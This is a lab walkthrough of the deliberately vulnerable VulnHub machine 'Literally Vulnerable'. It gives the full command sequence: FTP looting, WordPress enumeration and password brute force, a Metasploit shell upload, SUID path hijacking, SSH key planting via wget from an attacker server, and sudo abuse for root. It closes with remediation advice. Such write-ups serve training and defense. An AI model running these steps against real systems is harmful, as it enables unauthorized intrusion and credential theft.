





# UA: Literally Vulnerable — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.103 |
| **Difficulty** | Easy/Medium |
| **OS** | Linux |
| **Goal** | root.txt |
| **Source** | [HackingArticles](https://www.hackingarticles.in/ua-literally-vulnerable-vulnhub-walkthrough/) |

## Attack Summary

Literally Vulnerable chains FTP anonymous login (password list), WordPress user enumeration and password brute force, Metasploit plugin upload for a Meterpreter shell, SUID binary PATH hijacking for lateral movement to user `john`, SSH key injection, base64-encoded credential discovery, and a sudo misconfiguration that allows overwriting an HTML file with `/bin/bash` to escalate to root.

## Methodology

1. Nmap — identify FTP, SSH, Nginx/WordPress (port 65535)
2. FTP anonymous login — get password list
3. WordPress user enumeration with wpscan
4. WordPress password brute force
5. Metasploit `wp_admin_shell_upload` — shell as www-data
6. SUID binary exploitation (PATH/PWD hijack) — shell as john
7. SSH key injection for stable access
8. Decode base64 password in hidden directory
9. Sudo misconfiguration — replace HTML file with bash for root

---

## Step 1: Reconnaissance

```bash
netdiscover -r 192.168.1.0/24
nmap -p- -A $TARGET
```



Open ports:

| Port | Service |
|---|---|
| 21 | vsftpd 3.0.3 (anonymous login allowed) |
| 22 | OpenSSH |
| 80 | Nginx |
| 65535 | Apache (WordPress) |

---

## Step 2: FTP Anonymous Login — Password List

```bash
ftp $TARGET
Name: anonymous
Password: (blank)
ftp> ls
ftp> get backupPasswords
ftp> bye
cat backupPasswords
```



The file contains a list of candidate passwords to use against WordPress.

---

## Step 3: WordPress Enumeration

Add hostname to `/etc/hosts`:

```
192.168.1.103 literally.vulnerable
```

Enumerate WordPress users:

```bash
wpscan --url http://$TARGET:65535/phpcms/ --enumerate u
```

Two users discovered: **notadmin** and **maybeadmin**.

---

## Step 4: WordPress Password Brute Force

```bash
wpscan --url http://$TARGET:65535/phpcms/ \
  -U user.txt \
  -P backupPasswords
```



Valid credentials found:

```
Username: notadmin
Password: Pa$$w0rd13!&
```

Log in to WordPress and inspect draft pages — a draft page reveals additional notes.

---

## Step 5: Metasploit Shell Upload

```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set rhosts $TARGET
set rport 65535
set targeturi /phpcms
set username notadmin
set password Pa$$w0rd13!&
exploit
```

Meterpreter session opens as **www-data**.

```bash
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Step 6: SUID Binary Exploitation (Lateral Movement)

```bash
find / -perm -u=s -type f 2>/dev/null
```



Finds `/home/doe/itseasy` — a SUID binary owned by `john` that runs `pwd` without a full path.

The `noteFromAdmin` file explains user `doe` deleted system binaries. Exploit the PATH lookup:

```bash
export PWD=\$(/bin/bash)
cd /home/doe
./itseasy
```

A shell as **john** is returned.

---

## Step 7: SSH Key Injection

```bash
# Attacker machine
ssh-keygen -f /tmp/john_key
cat /tmp/john_key.pub > /tmp/authorized_keys
python3 -m http.server 8000

# On target as john
mkdir -p /home/john/.ssh
cd /home/john/.ssh
wget http://$LHOST:8000/authorized_keys

# Attacker
ssh -i /tmp/john_key john@$TARGET
```

---

## Step 8: Hidden Credential Discovery

```bash
ls -la ~/.local/share/tmpFiles/
cat ~/.local/share/tmpFiles/myPassword
echo "am9objpZWlckczhZNDlJQiNaWko=" | base64 -d
```

This reveals `john`'s plaintext password.

```bash
cat /home/john/user.txt
```

---

## Step 9: Privilege Escalation — Sudo HTML File Replacement

```bash
sudo -l
```

Output: `john` can run `/var/www/html/test.html` as root without a password.

As `www-data` (or by writing to the file):

```bash
echo "/bin/bash" > /var/www/html/test.html
chmod 777 /var/www/html/test.html
```

As john:

```bash
sudo /var/www/html/test.html
whoami
# root
cat /root/root.txt
```



---

## Lessons Learned

- FTP anonymous login exposing password lists directly aids credential attacks against other services.
- WordPress user enumeration combined with application-specific password lists is highly effective.
- SUID binaries that invoke commands without absolute paths are vulnerable to PATH manipulation.
- Sudo rules allowing execution of web-writable files create trivial privilege escalation paths.
- Base64-encoded passwords in hidden directories are security through obscurity, not actual protection.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| FTP anonymous login | Disable anonymous FTP access |
| Weak WordPress passwords | Enforce strong passwords; enable lockout after failed attempts |
| WordPress plugin upload RCE | Keep WordPress and plugins updated; restrict file upload permissions |
| SUID binary with relative paths | Use absolute paths in SUID binaries; audit SUID permissions regularly |
| Sudo rule on web-writable file | Never allow sudo on files writable by lower-privileged users |
| Credentials stored in hidden directories | Use a secrets manager; do not store credentials in the filesystem |
